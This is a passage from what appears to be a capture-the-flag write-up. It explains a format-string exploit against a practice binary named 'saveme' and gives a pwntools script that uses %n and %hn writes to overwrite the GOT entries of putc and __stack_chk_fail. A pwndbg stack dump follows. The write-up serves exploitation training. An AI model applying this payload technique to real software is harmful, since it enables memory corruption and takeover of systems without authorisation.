 Now we overwrite the `GOT` entry of `putc` to point to the `call __stack_chk_fail` at `0x40154b`, and overwrite `GOT` entry of `__stack_chk_fail` to point to the second call to `scanf`, at `0x4014f9`. So we would like to write values of `0x40` at two places, `0x14f9`, then `0x154b` (`printf` does not clear out the count of bytes written after `%n`, so the values to be written need to be increasing). We can do this:

```py
from pwn import *

p = process('./saveme')
elf = ELF('./saveme')

putc_got = elf.got['putc']
stk_got = elf.got['__stack_chk_fail']

p.sendline(b'2')
p.recvuntil(b'gift: 0x')
buf_addr = unpack(unhex(p.recvuntil(b'|', drop=True).strip()), word_size=48, endian='big')

payload  = b'%64p'      # 0x40
payload += b'%13$n%14$n'# at putc_got+2 and stk_got+2
payload += b'%5305p'    # 0x14f9
payload += b'%15$hn'    # at stk_got
payload += b'%82p'      # 0x154b
payload += b'%16$hn'    # at putc_got
payload += b'\x00'*(8-(len(payload)%8)) + p64(putc_got+2) + p64(stk_got+2) + p64(stk_got) + p64(putc_got)

p.sendline(payload)
```

We step through gdb and confirm that `scanf` finishes without crashing! Now we have infinite loop of `scanf` - `printf`, let's go leak the heap address and get the flag!

```
pwndbg> x/32gx $rsp-0x100
0x7ffcaf349810: 0x0000000000000000      0x0000000000000000
0x7ffcaf349820: 0x00007ffcaf349990      0x00007f109ac43192
0x7ffcaf349830: 0x0000003000000008      0x00007ffcaf349910
0x7ffcaf349840: 0x00007ffcaf349850      0xf2f7e6746ae2d000
0x7ffcaf349850: 0x00007ffcaf349860      0x00007ffcaf349930
0x7ffcaf349860: 0x0000000000000000      0x0000000000000000
0x7ffcaf349870: 0x000000000000154b      0x000000000000154b
0x7ffcaf349880: 0x000000000000000a      0x000000007fffffff
0x7ffcaf349890: 0x0000000000000d68      0x000000000000000a
0x7ffcaf3498a0: 0x00007f109adcd6a0      0x0000000000402131
0x7ffcaf3498b0: 0x00000000004040c0      0x00007f109adc94a0
0x7ffcaf3498c0: 0x0000000000000000      0x00007f109ac70ec3
0x7ffcaf3498d0: 0x000000000000000a      0x00007f109adcd6a0
0x7ffcaf3498e0: 0x0000000000402131      0x00007f109ac645ca
0x7ffcaf3498f0: 0x0000000000401560      0x00007ffcaf349990
0x7ffcaf349900: 0x0000000000401560      0x0000000000401511
```
